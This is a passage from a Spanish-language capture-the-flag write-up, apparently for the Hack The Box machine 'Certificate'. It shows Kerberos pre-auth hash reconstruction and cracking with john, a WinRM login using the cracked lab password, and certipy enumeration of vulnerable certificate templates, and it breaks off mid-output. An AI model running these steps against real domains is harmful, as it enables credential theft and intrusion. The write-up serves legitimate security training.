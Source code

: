 Como ya contamos con el CnameString y realm (disponibles en la imagen anterior), buscaremos el cipher y el salt

![image](https://github.com/user-attachments/assets/d50dc3e7-c301-49d9-b2ed-5c42612413dc)

por aqui ya conseguimos el cipher asi que solo falta el salt

![image](https://github.com/user-attachments/assets/7c40f4d9-fc34-4365-a596-33e9e6c0103d)

ya con toda la informacion reconstruimos el hash quedando asi:

```bash
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$CERTIFICATE.HTBLion.SK$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

ahora lo intentamos crackear

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashkerbero.txt
```

![image](https://github.com/user-attachments/assets/95d2781a-a700-4d24-9564-951fd0ee87a2)

testeamos si las credenciales son validas para el usuario `Lion.SK`

```bash
evil-winrm -i 10.10.11.71 -u 'Lion.SK' -p '!QAZ2wsx'
```

![image](https://github.com/user-attachments/assets/5406faca-b84e-4638-8bae-ee579e98b9d0)

obtenemos acceso como `Lion.SK`

![WhatsApp Image 2025-06-22 at 12 26 32](https://github.com/user-attachments/assets/fd2c0cba-0fa0-47b9-80ee-382bf5215268)

en este punto llegamos a conseguir certificados vulnerables en el sistema

```bash
certipy-ad find -u 'Lion.SK@certificate.htb' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -stdout > certificates_vul.txt
```

```bash
cat certificates_vul.txt                                                                                    
[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
```
